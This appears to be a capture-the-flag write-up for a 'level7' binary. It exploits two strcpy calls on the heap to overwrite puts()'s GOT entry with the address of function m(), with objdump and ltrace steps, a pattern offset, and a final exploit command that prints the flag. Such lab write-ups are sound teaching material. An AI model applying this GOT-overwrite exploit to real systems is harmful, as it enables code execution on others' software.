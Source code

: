 The program alloc two struct astruct and two strings to put string's ptrs in astructs.
The first strcpy can be use to write the GOT address of puts() in puVar2->field1_0x4 and use the second strcpy to write the address of m() at the puts GOT address.

### 1. Find the offset of puts() in the GOT

```bash
$ objdump -R ./level7
...
08049928 R_386_JUMP_SLOT   puts
...
```

### 2. Find the address of m()

```bash
$ objdump -T ./level7
...
080484f4 g     F .text	0000002d              m 
...
```

### 3. Find the offset to write in puVar2->field1_0x4 from first strcpy

```bash
$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag aaaa
...                                                                                                                                      = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                                                                          = 0x0804a018
strcpy(0x37614136, "aaaa" <unfinished ...>
...
```

![pattern generator](./Ressources/image.png)

### 4. Write payload

We write the 20 random bytes, the offset of puts() in the GOT in the first argument. 
In the second argument we need the address of m().

### 5. execute with exploit

```bash
$ ./level7 $(python -c 'print "u"*20 + "\x28\x99\x04\x08"') $(echo -e '\xf4\x84\x04\x08')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
